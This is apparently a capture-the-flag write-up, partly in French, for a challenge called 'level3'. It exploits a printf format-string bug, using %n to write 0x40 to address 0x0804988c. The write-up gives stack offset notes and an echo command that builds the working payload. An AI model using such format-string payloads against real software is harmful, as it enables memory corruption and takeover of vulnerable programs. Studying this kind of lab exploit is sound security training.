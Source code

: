 ## level3

We need to set the value at 0x0804988c to 0x40. To do so, we exploit `printf`
to make him write this value to this adress with `%n`.

### Useful infos:
```
0x218 = 536
0x200 = 512
0x208 = 520

esp: ebp - 536


adresse ret pour gets puis pour fgets
adresse du buffer de taille 520
200
stdin
??
debut buffer
AAAA
BBBB
...

exploit:
echo -e "\x8c\x98\x04\x08%d%d%dZZAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHI%n"
```
